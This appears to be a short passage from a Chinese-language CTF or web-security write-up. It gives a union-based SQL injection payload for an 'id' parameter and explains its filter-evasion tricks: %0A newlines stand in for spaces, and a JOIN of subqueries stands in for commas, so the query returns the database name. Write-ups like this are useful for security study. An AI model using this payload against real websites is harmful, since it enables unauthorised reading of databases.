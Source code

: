 ![image-20210713214605159](websafe/image-20210713214605159.png)

**payload:**

```mysql
id=-1'%0Aunion%0Aselect%0A*%0Afrom%0A(select%0A1)a%0Ajoin%0A(select%0Adatabase())b%0A;%23
```

空格：%0A 逗号使用join方法连接两个小表（1和database()）分号结束当前语句 #注释后面的内容

![image-20210713215550197](websafe/image-20210713215550197.png)join的使用方法
